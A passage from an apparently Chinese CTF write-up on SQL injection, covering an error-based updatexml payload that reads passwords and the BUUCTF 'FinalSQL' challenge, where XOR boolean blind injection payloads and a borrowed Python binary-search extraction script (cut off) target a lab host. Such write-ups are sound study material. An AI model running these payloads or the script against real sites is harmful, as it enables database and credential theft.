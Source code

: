 并不完整，借助 right 函数

```sql
# right()：顾名思义就是从右边截取字符串。
# 用法：right(str, length)，即：right(被截取字符串， 截取长度)
1'or(updatexml(1,concat(0x7e,(select(group_concat(right(password,25)))from(H4rDsq1)),0x7e),1))#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732280998389-ab412ac8-881d-41ff-952d-7d99c9e2961d.png)

## [极客大挑战 2019]FinalSQL 1
刚进来，很懵逼

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732358929013-83ad1a61-cf25-4a5a-b3c1-b53e63ad4866.png)

把 5 个选项都点了，结果如下

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732358976121-efb22354-32c6-47c4-a318-5ea7c6f9dd98.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732358982212-c407fb5b-fbfc-45e3-846b-13530a311c5c.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732358999709-f4c9865d-0309-4cde-99fb-06fe2af3da9c.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732359009285-ed858391-beaf-483c-9230-45b55798403b.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732359014336-5133df9c-b4ab-48c4-af6a-ef0e3a2d01d1.png)

懵了，看看源码。注释了一个参数为 id 的文本框，而且 5 个界面的 url 里也写了 id 参数。这应该是注入点

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732359056732-ed2dc769-e9dd-4be1-a8d5-035de2302463.png)

试试，有反应。但是不是一个表![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732359221213-b17b612a-11a0-4fd6-9a72-87b8079e71d8.png)

因为这个 id=1 和 id=0 界面不一样，以此为基础，进行布尔盲注，and 和 or ，空格被过滤了

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732360607552-38a4a9f9-ad97-45e2-b171-d0f08cf75417.png)

用异或符试试

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732360653617-f0e37762-e629-4d5e-a393-9d8fb64be42b.png)![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732360669611-700af3a7-0ec1-48b8-9ea9-3f43dd7e588d.png)

可以，接下来构造语句

原理

```sql
1^1^1=1
1^1^0=0
```

是第三个布尔盲注的语句，进行尝试，根据结果判断真假

```sql
?id=1^1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),1,1))=105)
```

粘个别人写的脚本，用了二分法，比我写的效率高多了（读代码的想法在注释和代码后面）

```plain
import requests
import time

url = "http://ab82d2b2-e78c-4cbf-a6a4-719d50adefac.node5.buuoj.cn:81/search.php?"
temp = {"id": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.06)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 库名
        temp["id"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" % (i, mid)
        # 表名
```